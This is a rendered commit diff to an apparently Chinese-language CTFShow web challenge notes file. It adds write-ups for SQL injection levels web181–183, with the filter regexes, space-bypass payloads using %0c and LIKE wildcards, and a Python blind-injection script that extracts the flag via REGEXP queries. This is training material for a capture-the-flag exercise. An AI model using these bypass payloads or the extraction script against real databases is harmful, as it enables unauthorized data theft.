

Before and after one commit to Alice1nCradle/CTFShow-Web, a Markdown page: Web入门/Web入门.md, the part around the change. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
web181-183 clear

````diff
--- a/Web入门/Web入门.md
+++ b/Web入门/Web入门.md
@@ -1949,6 +1949,79 @@ id=1'or'1'='1'%23
 
 
 
+### web181
+
+```
+  function waf($str){
+    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
+  }
+```
+
+这次过滤了空格
+
+payload:-1'%0cor%0cusername='flag
+
+
+
+### web182
+
+```
+//对传入的参数进行了过滤
+  function waf($str){
+    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
+  }
+```
+
+不许直接访问flag
+
+payload:-1'%0cor%0cusername%0clike%0c'f%%%
+
+
+
+### web183
+
+```
+  function waf($str){
+    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
+  }
+```
+
+不允许select or and flag into =
+
+用like+正则
+
+tableName=`ctfshow_user`where`pass`like'%25c%25'，直接POST上去。
+
+然后，使用盲注脚本：
+
+```
+import requests
+
+url = 'http://59418fd8-bd5f-4fd3-bc04-9997ef8ac8e4.challenge.ctf.show/select-waf.php'
+
+flagstr = '1234567890asdfghjklqwertyuiopzxcvbnm-_{}'
+flag = 'ctfshow{'
+
+for i in range(50):
+    for x in flagstr:
+        data = {
+            'tableName': f"`ctfshow_user`where`pass`regexp'{flag + x}'"
+        }
+        res = requests.post(url=url, data=data)
+        if res.text.find('user_count = 1;') > 0:
+            flag += x
+            print('++++++++++++++++++++++++right:   ' + x)
+            break
+        else:
+            print('+++++++++++++++++wrong:  ' + x)
+    print(flag)
+
+```
+
+运行即可发现flag的值会一点一点拼出来，直到括号闭合成功后即可停止脚本执行提交flag。
+
+
+
 ## 反序列化
 
 ### web254
````
